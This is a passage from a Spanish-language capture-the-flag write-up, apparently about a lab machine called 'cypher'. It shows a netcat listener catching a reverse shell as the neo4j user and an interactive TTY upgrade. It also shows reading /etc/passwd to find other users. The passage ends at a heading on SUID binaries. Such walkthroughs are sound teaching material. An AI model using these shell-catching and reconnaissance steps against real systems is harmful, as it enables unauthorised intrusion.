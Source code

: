 Desde nuestro listener recibiremos correctamente una consola como el usuario `neo4j`

~~~ bash
nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.187] from (UNKNOWN) [10.10.11.57] 57654
bash: cannot set terminal process group (1433): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$   
~~~


## TTY Treatment

Haremos un tratamiento de la TTY para obtener una consola más interactiva y que no se nos vaya al carajo la shell al hacer `Ctrl + C`

~~~ bash
neo4j@cypher:/$ script /dev/null -c bash  
script /dev/null -c bash
Script started, output log file is '/dev/null'.
neo4j@cypher:/$ ^Z
[1]  + 84765 suspended  nc -lvnp 443
root@parrot exploits # stty raw -echo; fg                            
[1]  + 84765 continued  nc -lvnp 443
                                    reset xterm
~~~

Cambiaremos el valor de la variable de entorno `TERM` a `xterm` para poder hacer `Ctrl + L`. Además, ajustaremos las proporciones de la terminal a las que tengamos, puedes verlas en tu máquina con el comando `stty size`

~~~ bash
neo4j@cypher:/$ export TERM=xterm
neo4j@cypher:/$ stty rows 44 columns 184
~~~


## Finding Lateral Movement Path

En este punto debemos buscar una forma de escalar nuestros privilegios o convertirnos en otro usuario que tenga más privilegios que el usuario actual

### Users

Buscando nombres de usuario en el archivo `/etc/passwd`, veremos que existe el usuario `graphasm`

~~~ bash
neo4j@cypher:/$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
~~~

### (Posible) SUID Binaries
